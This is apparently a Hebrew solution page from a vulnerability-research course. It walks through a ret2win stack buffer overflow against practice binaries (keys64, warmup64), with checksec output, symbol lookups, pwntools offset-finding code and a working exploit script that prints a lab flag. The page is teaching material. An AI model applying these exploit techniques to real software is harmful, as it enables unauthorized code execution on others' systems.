

repository: AmitPinchasi/amittech · page: מחקר-חולשות/2 - גלישת חוצץ על המחסנית/2.3 - ניתוב הרצה וret2win/2.3 - ניתוב הרצה וret2win - פתרון/index.html · generator: mkdocs

## פתרון - ניתוב הרצה וret2win

נעבור תרגיל אחרי תרגיל עם הפקודות האמיתיות, הפלט הצפוי, וה-exploit המלא. הכתובות בפלט הן דוגמה - אצלכם הן עשויות להיות מעט שונות בין גרסאות מהדר, אז תמיד תשלפו את הכתובות מהבינארי שלכם ולא תעתיקו אותן עיוור.

### פתרון תרגיל 1 - סיור והכנה

בדיקת ההגנות:

```bash
$ checksec --file=./keys64
RELRO           STACK CANARY   NX            PIE
Partial RELRO   No canary      NX enabled    No PIE
```

בדיוק מה שרצינו: NX פעיל, אין canary, אין PIE. כתובת `win` קבועה.

מציאת כתובת `win`:

```bash
$ objdump -d keys64 | grep '<win>:'
0000000000401196 <win>:

$ nm keys64 | grep ' win'
0000000000401196 T win
```

מציאת ה-offset עם cyclic. שולחים תבנית מחזורית, קוראים את ה-core dump או צופים ב-gdb איזה ערך נכנס למצביע ההוראות:

```python
from pwn import *
context.binary = ELF('./keys64')

p = process('./keys64')
p.sendline(cyclic(200))
p.wait()

core = p.corefile
fault = core.read(core.rsp, 8)          # what was on top of the stack at ret
log.info('offset = %d', cyclic_find(fault))
```

עבור `keys64` (buffer 80 + saved rbp 8) יוצא offset של 88. עבור `warmup64` (buffer 64 + 8) יוצא 72. ב-32 ביט ה-`saved ebp` הוא 4 בתים, אז ה-offsets קטנים יותר (למשל 84 ל-`keys32` ו-68 ל-`warmup32`), אבל תמיד תמדדו - המהדר עלול להוסיף alignment padding. הלקח: מפה לפני שתוקפים.

### פתרון תרגיל 2 - ret2win בלי ארגומנטים (64 ביט)

הכי פשוט שיש. ממלאים עד ה-offset וכותבים את כתובת `win`:

```python
#!/usr/bin/env python3
from pwn import *

context.binary = elf = ELF('./warmup64')

offset = 72
payload = flat({offset: elf.symbols['win']})

p = process('./warmup64')
p.recvuntil(b'bytes:')
p.sendline(payload)
print(p.recvall(timeout=2).decode())
```

הפלט:

```text
You win! Here is your flag: FLAG{ret2win_warmup}
```

למה זה עבד: `win` לא קוראת לפונקציית libc "כבדה" עם `movaps`, אלא רק ל-`puts`, אז הalignment לא הפיל אותנו. איך להכליל: זה השלד המינימלי של כל `ret2win`. ברגע שהפונקציה המנצחת דורשת ארגומנטים או פותחת shell, נצטרך את השכבות הבאות.
